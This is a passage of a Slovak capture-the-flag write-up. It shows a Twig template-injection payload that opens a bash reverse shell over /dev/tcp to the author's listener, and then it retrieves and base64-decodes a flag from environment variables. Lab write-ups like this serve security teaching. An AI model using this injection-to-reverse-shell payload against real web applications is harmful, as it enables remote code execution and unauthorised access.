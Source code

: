 Pripravím si penelope, ip mám teraz `10.200.0.44` a počúvam na porte 9010, skúsim spawnuť shell poslaním `{{['bash -c "bash -i >& /dev/tcp/10.200.0.44/9010 0>&1"']|filter('system')}}` a podarilo sa.

```shell
www-data@9e655f36c265:~/app/public$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Tu som to prehľadal krížom krážom a nakoniec bola vlajka v enviromentálnych premenných. Stačilo zavolať príkaz `set` ktorý vylistoval všetky premenné a jedna s názvom `FLAG` obsahovala vlajku.

```shell
www-data@9e655f36c265:~/app/public$ echo $FLAG
RkxBR3tUaEtILWRxaW8tNDlBWC1TWmxHfSAK
```

ešte dekódujem

```shell
www-data@9e655f36c265:~/app/public$ echo $FLAG | base64 -d
FLAG{ThKH-dqio-49AX-SZlG}
```

## Vlajka

    FLAG{ThKH-dqio-49AX-SZlG}
